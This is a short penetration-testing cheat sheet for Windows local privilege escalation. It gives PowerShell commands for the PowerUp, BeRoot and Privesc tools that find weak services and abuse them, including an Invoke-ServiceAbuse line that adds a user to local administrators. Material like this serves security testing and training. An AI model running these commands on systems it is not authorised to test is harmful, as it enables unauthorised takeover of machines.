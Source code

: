 - Privilege escalation tool links

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1<br>
https://github.com/AlessandroZ/BeRoot<br>
https://github.com/enjoiz/Privesc

### PowerUp

- Get services with unquoted paths and a space in their executable path

```
PS C:\> Get-ServiceUnquoted -Verbose
```

- Get services where the current user can write to its binary path or change arguments to the binary

```
PS C:\> Get-ModifiableServiceFile -Verbose
```

- Get services where the current user can modify their configuration

```
PS C:\> Get-ModifiableService -Verbose
```

- Abuse a function the current user has configuration rights on in order to add a local administrator or execute a custom command

```
PS C:\> Invoke-ServiceAbuse -Name '<weak service name>' -UserName '<username>' -Verbose
OR
PS C:\> Invoke-ServiceAbuse -Name '<weak service name>' -Command "net localgroup administrators <username> /add" -Verbose
```

- Run all checks (make sure to check AbuseFunction field to see examples of exploitation)

```
PS C:\> Invoke-AllChecks
```

### BeRoot

- Run all checks

```
PS C:\> .\beRoot.exe
```

### Privesc

- Run all checks

```
PS C:\> Invoke-PrivEsc
```

### Feature Abuse - Jenkins
